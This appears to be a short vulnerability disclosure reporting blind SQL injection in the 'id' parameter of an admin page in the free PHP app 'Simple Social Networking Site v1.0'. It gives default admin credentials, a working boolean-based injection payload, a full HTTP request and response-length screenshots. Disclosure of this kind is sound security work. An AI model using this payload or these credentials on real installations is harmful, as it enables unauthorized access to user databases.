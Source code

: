 # Simple Social Networking Site v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15311/simple-social-networking-site-instagram-phpoop-free-source-code.html

Vulnerability File: /sns/admin/members/view_member.php?id=

Vulnerability location: /sns/admin/members/view_member.php?id=,id

[+] Payload: /sns/admin/members/view_member.php?id=3%27%20and%20length(database())%20=6--+ // Leak place ---> id

Current database name: sns_db,length is 6

```sql
GET /sns/admin/members/view_member.php?id=3%27%20and%20length(database())%20=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 5, Content-Length: 945

![image](https://user-images.githubusercontent.com/54017627/166927633-a1ba1f95-7536-4acf-9f32-172937ae3138.png)

![image](https://user-images.githubusercontent.com/54017627/166928434-7311a046-2d9d-4b82-bb96-46bf6a63dd57.png)

When length (database ()) = 6, Content-Length: 981

![image](https://user-images.githubusercontent.com/54017627/166927585-561c06f4-3640-41c2-8202-5516bf2f78cd.png)

![image](https://user-images.githubusercontent.com/54017627/166928387-7a494c77-c576-49ed-abcd-e169c43e2f33.png)
